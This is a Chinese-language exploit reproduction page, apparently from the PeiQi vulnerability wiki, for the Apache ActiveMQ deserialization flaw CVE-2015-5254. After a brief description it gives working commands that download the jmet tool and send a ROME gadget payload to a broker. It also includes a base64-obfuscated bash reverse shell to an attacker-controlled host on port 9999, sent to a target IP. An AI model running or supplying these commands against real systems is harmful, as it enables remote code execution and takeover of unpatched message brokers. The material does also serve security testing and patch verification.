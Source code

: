 ```yaml
---
title: Apache ActiveMQ 反序列化漏洞 CVE-2015-5254
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

> [!NOTE]
>
> Apache ActiveMQ 5.13.0之前5.x版本

## 漏洞复现

首先下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/vuln**的 payload

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列

![](/img/20210924013654414005.png)

点击这个信息触发文件创建

![](/img/20210924013655974016.png)

成功执行命令创建文件，也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 172.21.231.183 61616
```

同样点击消息队列会触发命令执行

![](/img/20210924013656242793.png)